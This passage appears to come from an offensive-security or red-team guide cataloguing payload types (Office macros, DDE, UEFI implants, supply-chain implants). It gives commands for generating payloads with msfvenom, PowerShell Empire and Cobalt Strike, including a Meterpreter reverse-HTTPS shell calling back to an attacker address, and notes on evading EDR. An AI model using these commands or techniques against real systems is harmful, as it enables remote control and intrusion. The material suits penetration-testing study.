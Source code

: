 ### Document-Based Payloads

- **Office Macros**: Embedded in Word, Excel, PowerPoint files
- **PDF Exploits**: JavaScript or embedded file execution
- **XLM Macros**: Excel 4.0 macros (legacy but effective)
- **VBA Stomping**: Template injection techniques
- **Object Linking and Embedding (OLE)**: Embedding executable content
- **Dynamic Data Exchange (DDE)**: Command execution without macros

### Web-Based Payloads

- **JavaScript Payloads**: Browser-based execution
- **WebAssembly**: Near-native performance in browsers
- **HTML5 APIs**: Exploiting modern browser capabilities
- **Browser Exploits**: Targeting specific browser vulnerabilities
- **Java Applets**: Legacy but occasionally useful

### Other Payload Types

- **Firmware Modifications**: UEFI/BIOS implants
- **Mobile Applications**: Android/iOS malicious apps
- **Container Escapes**: Docker/Kubernetes exploits
- **IoT Exploits**: Targeting embedded systems
- **Supply Chain Implants**: Modifying legitimate software

## Payload Generation Techniques

### Using Existing Frameworks

```bash
# Metasploit payload generation
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.100 LPORT=443 -f exe -o payload.exe

# PowerShell Empire payload
empire-cli
uselistener http
set Host https://redirector.domain.com
execute
usestager windows/launcher_bat
set Listener http
generate

# Cobalt Strike payloads
Attacks > Packages > Payload Generator
```

### Custom Payload Development

- **Low-Level Languages**: C, C++, Assembly for EDR evasion
- **Cross-Platform Languages**: Go, Rust, Nim for versatility
- **Shellcode Development**: Hand-crafted ASM or compiler-generated
- **Reflective Loading**: In-memory execution without disk artifacts
- **Syscall Implementation**: Direct system call invocation bypassing API hooking
